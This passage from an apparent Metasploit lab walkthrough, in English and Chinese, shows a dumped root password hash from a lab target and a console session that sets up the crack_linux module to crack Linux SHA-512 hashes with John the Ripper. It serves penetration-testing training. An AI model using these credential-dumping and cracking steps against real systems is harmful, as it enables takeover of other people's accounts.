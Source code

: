 ```
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt
[*] Post module execution completed
```

In this lab, run the following auxiliary modules against the target:

`auxiliary/analyze/crack_linux`

[Password Cracker: Linux](https://www.rapid7.com/db/modules/auxiliary/analyze/crack_linux/)

密码破解者：Linux

该模块使用 John the Ripper 或 Hashcat 来识别从 Unix/Linux 系统的 unshadowed passwd 文件中获取的弱密码。默认情况下，该模块只会破解 MD5、BSDi 和 DES 实现。但是，它也可以破解 Blowfish 和 SHA(256/512)，但速度要慢得多。


```
root@attackdefense:~# msfconsole -q
msf5 > use auxiliary/analyze/crack_linux
msf5 auxiliary(analyze/crack_linux) > set sha512 true
sha512 => true
msf5 auxiliary(analyze/crack_linux) > show options

Module options (auxiliary/analyze/crack_linux):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   BLOWFISH              false            no        Include BLOWFISH hashes (Very Slow)
   BSDI                  true             no        Include BSDI hashes
   CONFIG                                 no        The path to a John config file to use instead of the default
   CRACKER_PATH                           no        The absolute path to the cracker executable
   CUSTOM_WORDLIST                        no        The path to an optional custom wordlist
   DES                   true             no        Indlude DES hashes
   FORK                  1                no        Forks for John the Ripper to use
   INCREMENTAL           true             no        Run in incremental mode
   ITERATION_TIMEOUT                      no        The max-run-time for each iteration of cracking
   KORELOGIC             false            no        Apply the KoreLogic rules to John the Ripper Wordlist Mode(slower)
   MD5                   true             no        Include MD5 hashes
   MUTATE                false            no        Apply common mutations to the Wordlist (SLOW)
   POT                                    no        The path to a John POT file to use instead of the default
   SHA256                false            no        Include SHA256 hashes (Very Slow)
   SHA512                true             no        Include SHA512 hashes (Very Slow)
   USE_CREDS             true             no        Use existing credential data saved in the database
   USE_DB_INFO           true             no        Use looted database schema info to seed the wordlist
   USE_DEFAULT_WORDLIST  true             no        Use the default metasploit wordlist
   USE_HOSTNAMES         true             no        Seed the wordlist with hostnames from the workspace
   USE_ROOT_WORDS        true             no        Use the Common Root Words Wordlist
   WORDLIST              true             no        Run in wordlist mode


Auxiliary action:

   Name  Description
   ----  -----------
   john  Use John the Ripper

```